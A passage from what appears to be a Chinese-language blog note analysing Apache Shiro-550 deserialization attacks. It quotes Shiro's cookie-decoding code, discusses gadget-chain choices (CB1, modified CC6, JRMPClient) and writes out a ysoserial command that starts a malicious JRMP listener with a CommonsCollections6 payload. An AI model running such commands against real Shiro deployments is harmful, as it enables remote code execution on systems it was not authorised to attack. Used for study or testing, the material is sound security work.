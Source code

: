 ```java
            if (log.isTraceEnabled()) {
                log.trace("Acquired Base64 encoded identity [" + base64 + "]");
            }
            byte[] decoded = Base64.decode(base64);
            if (log.isTraceEnabled()) {
                log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
            }
            return decoded;
        } else {
            //no cookie set - new site visitor?
            return null;
        }
    }
```

##### 没有分析的地方（TODO）

这里为了反序列化攻击分析了与序列化和反序列化相关的代码，但是没有深入去分析反序列化后的对象是如何被使用的，毕竟身份验证是通过这个对象进行的，在拿到了shiro key但是没有找到利用链的情况下，是否可以在这个对象上做做文章呢？这个问题后续再分析

#### 反序列化链的选择

反序列化攻击的前置是找到一条利用链，而且最好这条链子所需的类是仅仅依赖于出现反序列化点的库和jre的。这里也是一样的，我们不能寄希望于于存在Shiro550的目标一定引用了存在其他利用链的依赖。

##### 不依赖于CommonsCollections的CB1

详细分析见之前的文章（TODO）

这里将代码略作修改添加到ysoserial中

##### 二次反序列化（TODO）

依稀记得曾经看到过相关文章，可以通过二次反序列化解决依赖问题，后续有机会再补充。

#### Tomcat环境下的利用链

##### Tomcat环境下使用改造CC6

见之前的文章（TODO）

这里将代码略作修改添加到ysoserial中

##### Tomcat环境下使用JRMPClient链

由于JRMPClient链不依赖三方库中的类，在JRMPClient（jdk241之前）支持的版本下可以利用。

* jdk231之前，使用ysoserial生成恶意对象并开启而已的JRMP服务

```shell
# 打开JRMP恶意服务端
# 注意这里利用链的是否适用于当前java版本，必要依赖是否存在,1999为恶意服务监听端口
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections6 "calc.exe"
```

在ysoserial中实现加密功能

